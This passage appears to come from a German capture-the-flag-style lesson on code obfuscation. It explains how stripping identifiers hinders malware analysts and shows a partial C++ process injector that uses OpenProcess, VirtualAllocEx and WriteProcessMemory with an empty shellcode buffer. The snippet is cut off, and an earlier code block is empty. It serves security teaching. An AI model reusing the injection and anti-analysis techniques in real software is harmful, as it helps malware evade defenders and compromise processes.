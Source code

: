 ## Fragen:
Welche Flagge wird gefunden, nachdem der bereitgestellte Ausschnitt ordnungsgemäß rückwärts entschlüsselt wurde?
```

```

# Task 8 - Identifizierbare Informationen schützen und entfernen
Identifizierbare Informationen können eine der kritischsten Komponenten sein, die ein Analyst nutzen kann, um ein bösartiges Programm zu analysieren und zu verstehen. Indem die Menge an identifizierbaren Informationen (Variablen, Funktionsnamen usw.) begrenzt wird, hat ein Angreifer eine bessere Chance, die ursprüngliche Funktion nicht rekonstruieren zu können.

Auf einer höheren Ebene sollten wir drei verschiedene Arten von identifizierbaren Daten betrachten: Code-Struktur, Objektnamen und Datei-/Kompilationseigenschaften. In dieser Aufgabe werden wir die Kernkonzepte jeder Art sowie eine Fallstudie zu einem praktischen Ansatz für jede davon aufschlüsseln.
##
### Objektnamen

Objektnamen bieten einen erheblichen Einblick in die Funktionalität eines Programms und können den genauen Zweck einer Funktion offenlegen. Ein Analyst kann immer noch den Zweck einer Funktion aus ihrem Verhalten rekonstruieren, aber dies ist deutlich schwieriger, wenn kein Kontext zur Funktion vorhanden ist.

Die Bedeutung von wörtlichen Objektnamen kann je nachdem, ob die Sprache **kompiliert** oder **interpretiert** ist, variieren. Bei einer interpretierten Sprache wie **Python** oder **PowerShell** sind alle Objekte wichtig und müssen modifiziert werden. Bei einer kompilierten Sprache wie **C** oder **C#** sind in der Regel nur Objekte in den Zeichenfolgen signifikant. Ein Objekt kann in den Zeichenfolgen durch jede Funktion erscheinen, die eine **I/O-Operation** ausführt.

Das oben genannte Whitepaper "Layered Obfuscation Taxonomy" fasst diese Praktiken gut unter der Methode der bedeutungslosen Bezeichner der Code-Element-Schicht zusammen.

Nachfolgend werden wir zwei grundlegende Beispiele für das Ersetzen von bedeutungsvollen Bezeichnern sowohl für eine interpretierte als auch für eine kompilierte Sprache betrachten.
##
Als Beispiel für eine kompilierte Sprache können wir einen Prozessinjektor in C++ betrachten, der seinen Status an die Befehlszeile meldet.
```c++
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
```